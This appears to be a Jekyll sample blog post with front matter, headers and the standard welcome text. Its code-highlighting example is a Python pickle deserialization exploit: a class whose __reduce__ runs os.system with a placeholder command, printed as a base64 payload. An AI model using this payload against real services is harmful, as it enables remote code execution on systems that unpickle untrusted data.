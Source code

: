 ```yaml
---
layout: post
title:  "Welcome to Jekyll!"
date:   2024-10-31 10:53:51 +0700
categories: jekyll update
description: Test post blah blah blah blah blah blah blah blah blah blah blah blah blah blah blah blah blah 
---
```

{:toc}

# Header 1
## Header 1.135135135135135135135135135135135135
You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. You can rebuild the site in many different ways, but the most common way is to run `jekyll serve`, which launches a web server and auto-regenerates your site when a file is updated.

Jekyll requires blog post files to be named according to the following format:
`YEAR-MONTH-DAY-title.MARKUP`
## Header 1.2
Where `YEAR` is a four-digit number, `MONTH` and `DAY` are both two-digit numbers, and `MARKUP` is the file extension representing the format used in the file. After that, include the necessary front matter. Take a look at the source for this post to get an idea about how it works.

Jekyll also offers powerful support for code snippets:

# Code
{% highlight python %}
import pickle
import base64

class Exploit(object):
    def __reduce__(self):
        import os
        return (os.system, ("<your_command_here>",))

payload = pickle.dumps(Exploit())
encoded_payload = base64.b64encode(payload).decode('utf-8')

print(encoded_payload)
{% endhighlight %}

# Footer
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
